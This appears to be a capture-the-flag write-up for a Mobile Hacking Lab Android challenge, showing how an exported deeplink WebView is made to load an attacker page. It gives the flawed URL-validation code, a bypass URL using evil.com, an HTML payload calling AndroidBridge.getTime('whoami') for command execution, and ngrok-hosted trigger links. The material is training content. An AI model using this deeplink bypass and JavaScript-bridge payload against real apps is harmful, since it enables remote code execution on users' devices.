





## AndroidManifest.xml

Looking into AndroidManifest.xml we found an exported WebView activity with intent-filters showing deeplinks support



- Scheme -> mhl
- Host -> mobilehackinglab

- Link Example would be mhl://mobilehackinglab


## WebViewActivity

Looking into the WebViewActivity, We found the following


1. JavaScriptInterface is registered under the name AndroidBridge 



2. Inspecting the class being registed we found a direct remote code execution in place and a tag @JavascriptInterface confirming it could be loaded using script tags from html page



3. Now, Let us see how can we abuse the deeplink implementation to achieve trigger the getTime Function. So The workflow of the deeplinks as follows

Upon receving a new intent ( Deeplinks is actually an intent ), The function handleDeepLink(intent) is triggered then uri is extracted and send as an arguement to isValidDeepLink(uri) ( validating the URI ), if it returns true the uri is passed to LoadDeepLink(uri) otherwise (false) it will defaulkt to loadAssetIndex()




4. We are interested to isValidDeepLink() function to pass the validation


```
    private final boolean isValidDeepLink(Uri uri) {
        if ((!Intrinsics.areEqual(uri.getScheme(), "mhl") && !Intrinsics.areEqual(uri.getScheme(), "https")) || !Intrinsics.areEqual(uri.getHost(), "mobilehackinglab")) {
            return false;
        }
        String queryParameter = uri.getQueryParameter("url");
        return queryParameter != null && StringsKt.endsWith$default(queryParameter, "mobilehackinglab.com", false, 2, (Object) null);
    }
```

- The scheme should be mhl , we already know that
- the host should be mobilehackinglab and we also know that from androidmanifest.xml
- as you can see the query paremeter url should ends with mobilehackinglab.com 
- combining the above : mhl://mobilehackinglab?url=mobilehackinglab.com ( that matches )

5. Then LoadDeeplink function takes the url parameter and loads inside webView 

- The validation only cares if the value of the query parameter ends with mobilehackinglab.com, So we can trick it by adding a dumy query parameter at the end of the URL. mhl://mobilehackinglab?url=https://evil.com?abc=mobilehackinglab.com 


6. all is left is to host our solve.html with the following content 

```
<html>
<script>document.write(AndroidBridge.getTime("whoami"))</script>
</html>
```

Now , we just exposed it using ngrok and the challenge and trigger the deeplink

`mhl://mobilehackinglab?url=https://4fc6-156-208-78-146.ngrok-free.app/solve.html?abc=mobilehackinglab.com`

I used hextree web app to trigger the deeplink

`https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-link-builder?href=mhl://mobilehackinglab?url=https://4fc6-156-208-78-146.ngrok-free.app/solve.html?abc=mobilehackinglab.com`





Thanks For Reading !